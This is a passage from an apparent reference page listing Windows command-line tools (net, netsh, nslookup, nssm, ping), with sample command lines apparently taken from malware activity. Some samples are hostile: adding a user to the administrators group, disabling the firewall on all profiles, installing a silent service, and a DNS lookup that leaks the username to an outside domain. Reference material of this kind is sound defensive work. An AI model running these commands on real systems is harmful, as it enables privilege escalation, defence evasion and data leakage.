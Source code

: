 Command  line examples:

    net config workstation
    net localgroup "Remote Desktop Users" Matthew /add
    net localgroup administrators Matthew /add
    net session
    net start "Data Sharing Service"
    net stop TeamViewer
    net stop osppsvc /y

### netsh
Function: Netsh is a command-line scripting utility that allows you to display or modify the network configuration of a computer that is currently running.

Command  line examples:

    netsh advfirewall firewall add rule name="DriverPack aria2c.exe" dir=in action=allow program="%TEMP%\7ZipSfx.001\bin\tools\aria2c.exe"
    netsh advfirewall set allprofiles state off
    netsh advfirewall set allprofiles state on
    netsh int ipv6 isatap show state
    netsh int tcp reset
    netsh int tcp set heuristics disabled

### nslookup
Function: Displays information that you can use to diagnose Domain Name System (DNS) infrastructure.

Command  line examples:

    nslookup -q=txt djowy612ygosvyd.com 208.67.220.220
    nslookup -type=a %OSUSER%.check.francefriends.tk.
    nslookup ransomware.bit ns1.wowservers.ru

### nssm.exe
Function: Nssm.exe launches the Non-Sucking Service Manager program. This is not an essential Windows process and can be disabled if known to create problems. NSSM is a free utility that manages background and foreground services and processes. The program can be set to automatically restart failing services.

Command  line examples:

    nssm.exe /install /silent "iSASService" %PROGRAMFILES%\Java\jre1.8.0_25\bin\java.exe

### ping
Function: Computer network administration software utility used to test the reachability of a host on an Internet Protocol network.

Command  line examples:

    ping -n 0 localhost
    ping -n 1 127.0.0.1
    ping -n 2 -w 1000 127.0.0.1
    ping -t 2 -l 10 127.0.0.1
    ping google.com
